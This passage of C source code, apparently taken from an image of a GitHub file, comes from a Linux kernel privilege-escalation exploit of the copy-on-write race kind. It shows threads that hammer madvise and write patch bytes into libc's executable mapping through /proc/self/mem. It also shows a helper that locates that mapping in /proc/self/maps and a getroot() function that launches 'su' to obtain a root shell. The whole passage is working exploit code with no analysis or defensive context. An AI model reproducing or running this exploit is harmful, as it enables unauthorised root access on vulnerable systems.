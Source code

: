 		printf("[*] madvise = %d\n", c);

	return NULL;
}

static void *procselfmemThread(void *arg)
{
	struct mem_arg *mem_arg;
	int fd, i, c = 0;
	unsigned char *p;

	mem_arg = (struct mem_arg *)arg;
	p = mem_arg->do_patch ? mem_arg->patch : mem_arg->unpatch;

	fd = open("/proc/self/mem", O_RDWR);
	if (fd == -1)
		err(1, "open(\"/proc/self/mem\"");

	for (i = 0; i < LOOP; i++) {
		lseek(fd, mem_arg->offset, SEEK_SET);
		c += write(fd, p, mem_arg->patch_size);

		if (i % 0x1000 == 0 && check(mem_arg->do_patch, __func__))
			break;
	}

	if (c == 0x1337)
		printf("[*] /proc/self/mem %d\n", c);

	close(fd);

	return NULL;
}

static int get_range(unsigned long *start, unsigned long *end)
{
	char line[4096];
	char filename[PATH_MAX];
	char flags[32];
	FILE *fp;
	int ret;

	ret = -1;

	fp = fopen("/proc/self/maps", "r");
	if (fp == NULL)
		err(1, "fopen(\"/proc/self/maps\")");

	while (fgets(line, sizeof(line), fp) != NULL) {
		sscanf(line, "%lx-%lx %s %*Lx %*x:%*x %*Lu %s", start, end, flags, filename);

		if (strstr(flags, "r-xp") == NULL)
			continue;

		if (strstr(filename, "/libc-") == NULL)
			continue;
		//printf("[%lx-%6lx][%s][%s]\n", start, end, flags, filename);
		ret = 0;
		break;
	}

	fclose(fp);

	return ret;
}

static void getroot(void)
{
	execlp("su", "su", NULL);
	err(1, "failed to execute \"su\"");
}

